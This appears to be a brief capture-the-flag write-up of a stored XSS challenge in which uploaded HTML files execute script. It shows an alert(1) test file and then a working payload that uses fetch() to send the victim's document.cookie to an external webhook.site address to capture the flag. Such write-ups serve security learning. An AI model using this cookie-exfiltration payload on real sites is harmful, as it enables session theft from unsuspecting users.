 + uploading an html file with the following contents and accessing it via `/uploads/uuid` will give you an alert
```htm
<html>
    <script>
        alert(1)
    </script>
</html>
```
+ https://d1kesanhfxrlwb.cloudfront.net/upload/b6393ef3-c4e6-4344-9253-65978f60a39a
+ The flag is in cookie. 
+ We can upload the html file with the script to fetch the cookie:
```html
<html>
    <script>
    fetch("https://webhook.site/854bcf28-af51-4e24-99f8-b58cac657ab3?cookie=" + document.cookie);
    </script>
</html>
```
And thus we get the flag!